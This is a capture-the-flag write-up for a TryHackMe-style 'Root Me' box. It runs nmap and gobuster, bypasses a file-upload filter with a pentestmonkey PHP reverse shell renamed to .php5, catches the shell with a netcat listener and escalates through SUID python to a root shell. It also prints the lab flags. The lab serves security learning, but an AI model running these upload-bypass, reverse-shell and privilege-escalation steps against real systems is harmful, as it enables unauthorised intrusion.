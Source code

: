 # Root Me Box
--------------------------------------------------------------------

**TOOLS USED**: nmap, gobuster, netcat

**nmap**: network exploration tool and security / port scanner<br>

```
nmap [Scan Type...] [Options] {target specification}
```

Scan Types:<br>
-Ss [DEFAULT] TCP SYN Scan (Doesn't open full TCP connection)<br>
-St TCP Scan (Opens full TCP connection)<br>
-Su UDP Scan<br>

**gobuster**: tool to brute force URIs (dirs, files, dns subdomains)

```
gobuster [command]
```

**nc**: networking utility for reading and writing to network connections using TCP/IP

```
nc [-options] hostname port[s] [ports] ...
nc -l -p port [-options] [hostname] [port]
```

--------------------------------------------------------------------
## GIVEN INFO

**IP Address**: 10.10.142.72<br>
**Internal Virtual IP Address**: 10.6.40.234

--------------------------------------------------------------------
## PROCEDURE

### 1. FIND EXPOSED SERVICES

**TOOLS**: nmap

```
nmap -sV -oN nmap.txt 10.10.142.72
```

![nmap](./imgs/nmap.png)

**PORTS OPEN** =<br>
22 (TCP) ssh, <br>
80 (TCP) http <br>

**APACHE VERSION** = 2.4.29

--------------------------------------------------------------------

### 2. FIND HIDDEN DIR ON WEB SERVER

**TOOLS**: gobuster

```
gobuster dir -u http://10.10.142.72 -w /usr/share/wordlists/dirb/common.txt
```
dir: directory brute force<br>
-u: website<br>
-w: wordlist

![gobuster](./imgs/gobuster.png)

--------------------------------------------------------------------

### 3. GET A SHELL

**TOOLS**: netcat

Get shell code from pentestmonkey. Change file ext to php5 so we can bypass file upload restriction
```
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
mv php-reverse-shell.php payload.php5
```

Change IP address to your IP address and upload file to http://10.10.142.72/panel

```
nc -nlvp 4444
```

-n: number only<br>
-l: listen mode<br>
-v: verbose<br>
-p: port<br>

Go to http://10.10.142.72/uploads/ and click on payload.php5

![shell](./imgs/shell.png)

```
find / -name user.txt
```

![flag](./imgs/flag.png)

USER.TXT CONTENT: THM{y0u_g0t_a_sh3ll}

--------------------------------------------------------------------

### 4. PRIVILEGE ESCALATION

```
find / -user root -perm /4000 2>/dev/null
```
Find root user with SUID permission (4000)<br>
2>/dev/null gets rid of all the "Permission Denied" hits

FILE: /usr/bin/python

![SUID](./imgs/SUID.png)

All the other files listed are always accessible to all users so not exploitable

Steps for privilege escalation with python SUID:
https://gtfobins.github.io/gtfobins/python/#suid

```
sudo install -m =xs $(which python) .

./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

```
find / -name root.txt
```

ROOT.TXT CONTENT: THM{pr1v1l3g3_3sc4l4t10n}
